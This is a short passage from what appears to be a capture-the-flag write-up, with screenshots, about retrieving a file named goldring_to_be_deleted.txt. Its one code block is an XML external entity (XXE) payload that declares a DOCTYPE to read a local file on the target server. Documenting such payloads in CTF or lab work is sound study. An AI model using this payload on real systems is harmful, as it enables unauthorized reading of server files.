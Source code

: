 ![d5901da6d7bf300e3808313a4563b743.png](../../_resources/d5901da6d7bf300e3808313a4563b743.png)

`goldring_to_be_deleted.txt`

### Goldring_to_be_deleted.txt

Feed it the goldring :satisfied:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:////app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>
```

![3da9b9408055e45ded8964b18085ba37.png](../../_resources/3da9b9408055e45ded8964b18085ba37.png)
